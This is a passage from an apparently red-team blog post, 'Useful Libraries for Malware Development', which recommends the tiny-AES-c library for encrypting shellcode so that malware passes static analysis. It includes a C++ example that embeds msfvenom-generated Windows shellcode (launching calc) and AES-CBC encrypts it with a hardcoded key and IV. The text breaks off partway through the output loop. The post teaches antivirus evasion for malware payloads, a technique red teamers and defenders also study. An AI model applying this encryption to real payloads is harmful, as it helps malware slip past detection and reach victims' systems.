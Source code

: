 ```yaml
---
layout: post
title: "Useful Libraries for Malware Development"
date: 2022-02-16
categories: [redteam, maldev]
description: "A list of some easy-to-use libraries and how to use them for malware development."
header-img: /static/img/2022-02-16-libraries-for-maldev/inline-syscall-not-detected.png
image: /static/img/2022-02-16-libraries-for-maldev/inline-syscall-not-detected.png
---
```


The use of libraries for development is great especially if you're a beginner and wanted something that will surely work right out of the box and wanted to save time.

In this post, I'll share some of the libraries that I found easy to use and useful during my malware development journey. 


## tiny-AES-c

When writing malware, it's a must to encrypt your shellcode. Otherwise, your malware won't even pass the static analysis. One of the recommended ways of encrypting the shellcode is by using AES, and one of the easiest ways to implement this is by using the [kokke/tiny-AES-c](https://github.com/kokke/tiny-AES-c) library. 

To use this library, just add the following header and source files to your project.

- [aes.hpp](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.hpp)
- [aes.h](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.h)
- [aes.c](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.c)
 
The following shows an example of how to AES-encrypt (using CBC mode) your shellcode and its corresponding output.
```cpp
#include <Windows.h>
#include <stdio.h>
#include "lib/aes.hpp"

int main()
{
	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_encrypt_buffer(&ctx, shellcode, shellcodeSize);

	printf("Encrypted buffer:\n");

	for (int i = 0; i < shellcodeSize - 1; i++) {
```